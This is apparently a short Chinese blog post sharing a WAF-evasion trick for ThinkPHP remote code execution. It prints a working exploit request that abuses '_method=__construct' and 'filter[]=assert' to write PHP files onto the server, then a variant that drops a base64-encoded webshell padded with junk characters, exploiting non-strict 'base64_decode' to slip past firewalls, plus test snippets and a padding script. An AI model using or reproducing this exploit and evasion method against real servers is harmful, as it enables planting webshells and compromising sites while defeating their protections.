


分享一个ThinkPHP GetShell时WAF绕过的小技巧

# POC
以如下POC为例
```
POST /?s=captcha&test=-1 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.1 Safari/537.36
Content-Type: application/x-www-form-urlencoded

s=file_put_contents('system.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
可能绕过WAF的POC为
```
POST /?s=captcha&test=-1 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.1 Safari/537.36
Content-Type: application/x-www-form-urlencoded

s=file_put_contents('system.php','<?php file_put_contents("todoback.php",base64_decode("垃圾字符"));?>')&_method=__construct&method=POST&filter[]=assert
```

# 原理
  
官方文档中提到，使用base64_decode解码但不指定第二个参数$strict时，base64字符集以外的字符将被忽略，由此我们可以利用它来插入大量垃圾字符

# 实践
Ubuntu22.04 + 宝塔（Nginx1.24.0 + PHP5.6.40）

先测试合法base64字符，代码如下
```
<?php
$str = 'VGhpcyBpcyBhbiBlbmNvZGVkIHN0cmluZw==';
echo base64_decode($str);
?>
```
访问后，输出如下图  
  

测试插入非法base64字符
```
<?php
$str = 'VGhpcyBpcyBhbiBlbmNvZGVkIHN0cmluZw==***';
echo base64_decode($str);
?>
```
访问后，输出如下图  
  

测试插入100万个非法base64字符，python脚本如下
```
with open("a.txt", "w") as fw:
    for i in range(1000000):
        fw.write("*")
```
代码如下  
  
访问后，输出如下图  
  